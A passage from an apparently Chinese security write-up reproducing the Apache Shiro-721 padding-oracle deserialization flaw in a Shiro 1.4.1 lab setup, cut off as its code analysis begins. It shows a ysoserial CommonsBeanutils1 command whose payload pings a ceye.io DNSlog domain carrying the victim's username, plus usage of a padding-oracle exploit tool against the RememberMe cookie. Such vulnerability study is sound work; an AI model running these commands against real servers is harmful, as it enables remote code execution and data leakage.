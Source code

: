 相对于之前的SHIRO-550来说，这次的攻击者是无需提前知道加密的密钥。

Shiro-721所影响的版本：

复现漏洞首先就是搭建环境，我这里从网上整了一个Shiro1.4.1的版本，漏洞环境链接：[https://github.com/3ndz/Shiro-721/blob/master/Docker/src/samples-web-1.4.1.war](https://github.com/3ndz/Shiro-721/blob/master/Docker/src/samples-web-1.4.1.war)

先登陆抓包看一下

[![](https://p1.ssl.qhimg.com/t01b55bed68b4cb0a63.png)](https://p1.ssl.qhimg.com/t01b55bed68b4cb0a63.png)

此时有个RememberMe的功能，启用登陆后会set一个RememberMe的cookie

[![](https://p2.ssl.qhimg.com/t01a39554056e68fb09.png)](https://p2.ssl.qhimg.com/t01a39554056e68fb09.png)

我在网上找到一个利用脚本，我就用这个脚本来切入分析

脚本地址：[https://github.com/longofo/PaddingOracleAttack-Shiro-721](https://github.com/longofo/PaddingOracleAttack-Shiro-721)

首先利用ceye.io来搞一个DNSlog。来作为yaoserial生成的payload

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "ping %USERNAME%.jdjwu7.ceye.io" &gt; payload.class
```

用法如下：

```
java -jar PaddingOracleAttack.jar targetUrl rememberMeCookie blockSize payloadFilePath
```

因为Shiro是用AES-CBC加密模式，所以blockSize的大小就是16

[![](https://p0.ssl.qhimg.com/t01c119d0334d0e72c7.png)](https://p0.ssl.qhimg.com/t01c119d0334d0e72c7.png)

运行后会在后台不断爆破，payload越长所需爆破时间就越长。

[![](https://p0.ssl.qhimg.com/t012203c54bdf8cd481.png)](https://p0.ssl.qhimg.com/t012203c54bdf8cd481.png)

将爆破的结果复制替换之前的cookie

[![](https://p4.ssl.qhimg.com/t0114ec69127e407dcb.png)](https://p4.ssl.qhimg.com/t0114ec69127e407dcb.png)

就能成功触发payload收到回信了



### **五、Shiro反序列化分析**

还是结合代码来理解会更好的了解到漏洞的原理。

shrio处理Cookie的时候有专门的类—-CookieRememberMeManager，而CookieRememberMeManager是继承与AbstractRememberMeManager

